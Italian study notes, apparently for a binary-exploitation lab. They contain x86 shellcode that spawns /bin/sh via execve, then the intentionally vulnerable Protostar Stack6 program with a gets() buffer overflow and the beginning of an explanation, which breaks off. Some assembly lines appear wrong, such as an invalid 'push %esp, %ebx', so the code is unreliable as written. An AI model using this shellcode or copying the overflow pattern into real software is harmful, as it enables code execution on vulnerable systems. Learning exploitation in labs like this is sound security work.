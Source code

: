 ## Memory Layout
- TODO: aggiungere tutta la parte sul memory layout
## Shellcode
- "/bin/sh": devo codificare in memoria questa stringa
	- ricordiamoci che siamo in un contesto little endian
	- "//sh": codifico prima questi 4 byte
		- 0x68732F2F
	- "/bin"
		- 0x6E69622F
- shellcode:
```s
	shellcode:
		xor %eax, %eax //xorando due valori uguali ottengo 0
		push %eax //metto eax sullo stack
		push $0x68732F2F // //sh
		push $0x6E69622F
		push %esp, %ebx
		mov %eax, %ecx
		mov %eax, %edx
		mov $0xb, %al
		int $0x80
		xor %eax, %eax
		inc %eax
		int $0x80
```


## Protostar - Stack6
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
- **getpath**
	- viene definito un buffer di 64 caratteri
	- viene definita una variabile senza segno int
	- si stampa un prompt